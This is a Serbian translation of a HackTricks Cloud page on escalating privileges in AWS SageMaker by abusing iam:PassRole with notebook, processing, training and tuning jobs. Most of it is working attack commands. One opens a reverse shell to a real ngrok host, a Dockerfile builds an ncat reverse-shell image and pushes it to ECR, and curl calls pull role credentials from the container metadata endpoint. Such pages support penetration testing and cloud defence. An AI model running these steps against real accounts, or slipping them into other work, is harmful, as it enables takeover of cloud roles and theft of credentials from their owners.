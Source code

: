 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Započnite kreiranje beležnice sa IAM ulogom koja ima pristup pridružen njoj:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
### Translation

Odgovor treba da sadrži polje `NotebookInstanceArn`, koje će sadržati ARN novo kreiranog primerka beležnice. Zatim možemo koristiti `create-presigned-notebook-instance-url` API da generišemo URL koji možemo koristiti da pristupimo primerku beležnice kada bude spreman:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Posetite URL adresu pretraživačem i kliknite na \`Otvori JupyterLab\` u gornjem desnom uglu, zatim pomaknite se do kartice "Pokretač" i pod odeljkom "Drugo", kliknite dugme "Terminal".

Sada je moguće pristupiti metapodacima akreditiva IAM uloge.

**Potencijalni uticaj:** Eskalacija privilegija na specifičnu ulogu usluge sagemaker.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ako već postoje Jupyter **beležnice koje se izvršavaju** na njoj i možete ih izlistati pomoću `sagemaker:ListNotebookInstances` (ili ih otkriti na bilo koji drugi način). Možete **generisati URL za njih, pristupiti im i ukrasti akreditive kako je naznačeno u prethodnoj tehnici**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potencijalni uticaj:** Privesc do uloge usluge sagemaker koja je pridružena.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Napadač sa ovim dozvolama može naterati **sagemaker da izvrši processingjob** sa sagemaker ulogom pridruženom. Napadač može odrediti definiciju kontejnera koji će se pokrenuti u **AWS upravnom ECS instanci računa**, i **ukrasti akreditive uloge IAM-a pridružene**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potencijalni uticaj:** Privesk na specifičnu ulogu usluge Sagemaker.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Napadač sa ovim dozvolama će moći da kreira obuku, **pokreće proizvoljan kontejner** na njemu sa **ulogom pridruženom**. Stoga, napadač će moći da ukrade akreditive uloge.

{% hint style="warning" %}
Ovaj scenario je teže iskoristiti nego prethodni jer morate generisati Docker sliku koja će poslati rev šel ili akreditive direktno napadaču (ne možete naznačiti početnu komandu u konfiguraciji obuke).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% kraj dodele %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potencijalni uticaj:** Privesc na specifičnu ulogu usluge sagemaker.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Napadač sa ovim dozvolama će (potencijalno) moći da kreira **posao podešavanja hiperparametara**, **pokreće proizvoljan kontejner** na njemu sa **ulogom pridruženom** njemu.\
_Nisam iskoristio zbog nedostatka vremena, ali izgleda slično kao prethodni eksploiti, slobodno pošaljite PR sa detaljima eksploatacije._

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
